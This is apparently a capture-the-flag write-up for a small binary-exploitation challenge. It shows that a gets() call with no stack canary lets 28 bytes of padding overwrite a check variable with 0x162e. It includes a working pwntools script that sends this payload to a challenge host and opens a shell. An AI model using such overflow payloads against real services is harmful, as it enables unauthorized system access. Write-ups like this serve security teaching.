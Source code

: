 ## Solution

To analyze the binary, we use [Cutter](https://github.com/rizinorg/cutter).

## Analysis

![Disassembly View](images/1.png)  
![Decompiler View](images/2.png)

By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- A local variable `var_ch` is initialized to `0x4d2` (which is **1234** in decimal).
- The program checks if `var_ch == 0x162e` (**5678** in decimal).
- If this condition is met, it prints `"Welcome home!"` and invokes the `shell()` function, which spawns a Bash shell using `system("/bin/bash")`.
- Otherwise, it prints:  
  `You are lying. No access for you.`

![Control Flow](images/3.png)


Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x28
; var unsigned long long var_ch @ stack - 0xc
```


This means:
- The buffer `s` starts at `rbp - 0x28`
- The target variable `var_ch` is at `rbp - 0xc`
- To reach and overwrite `var_ch`, we need to overflow `0x28 - 0xc = 0x1C` bytes (28 bytes)

Plan:
1. Fill 28 bytes to overflow the buffer.
2. Overwrite `var_ch` with `0x162e` (5678 in decimal).


### Exploit Code

We can use Pwn Tools to write the exloit

```python
from pwn import *

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1337)

# 28 bytes padding + 4 bytes to overwrite var_ch
payload = b"A" * (0x28 - 0xc) + p32(0x162e)

# Send the crafted input
p.sendline(payload)

# Interact with the shell
p.interactive()
```

Running the exploit results in a shell:

![](images/4.png)

You can now grab the flag or run further commands.